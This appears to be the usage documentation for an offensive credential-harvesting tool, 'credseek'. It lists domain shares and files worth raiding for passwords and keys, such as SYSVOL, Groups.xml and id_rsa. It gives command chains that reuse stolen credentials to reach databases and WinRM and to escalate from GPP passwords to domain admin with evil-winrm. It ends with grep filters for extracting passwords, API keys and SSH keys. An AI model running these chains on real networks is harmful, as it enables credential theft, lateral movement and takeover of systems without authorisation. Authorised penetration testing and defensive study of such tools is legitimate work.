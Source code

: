 ## High-Value Targets

### Shares
- `\\DC\SYSVOL` - GPP passwords
- `\\DC\NETLOGON` - Login scripts
- `\\FileServer\IT_Share` - Admin tools
- `\\FileServer\Backup` - Backup configs
- `\\FileServer\Scripts` - Automation

### Files
- `.env` - Environment variables
- `web.config` - Connection strings
- `database.yml` - DB config
- `id_rsa` - SSH keys
- `Groups.xml` - GPP passwords

## Integration Examples

### Chain 1: Creds → Database
```bash
./credseek.py iplist.txt
grep "db_connection\|mysql\|postgres" found_creds.txt
../dbseek/dbseek.py iplist.txt -t
```

### Chain 2: Creds → WinRM
```bash
./credseek.py iplist.txt -u user -p pass -d CORP
grep "password=" found_creds.txt
../winrmseek/winrmseek.py iplist.txt -t -u extracted_user -p extracted_pass
```

### Chain 3: GPP → Domain Admin
```bash
./credseek.py --gpp dclist.txt -u user -p pass -d CORP
# Check if GPP account is admin
../ldapseek/ldapseek.py dclist.txt -u gpp_user -p gpp_pass
# Connect to DC
evil-winrm -i dc01 -u gpp_admin -p gpp_pass
```

## Filtering Results

```bash
# Find passwords
grep "Type: password" found_creds.txt

# Find API keys
grep "Type: api_key" found_creds.txt

# Find database creds
grep "Type: db_connection" found_creds.txt

# Find SSH keys
grep "id_rsa\|.pem" found_files.txt

# Find GPP passwords
grep "GPP" found_creds.txt

# High-value keywords
grep -i "admin\|root\|sa\|service" found_creds.txt
```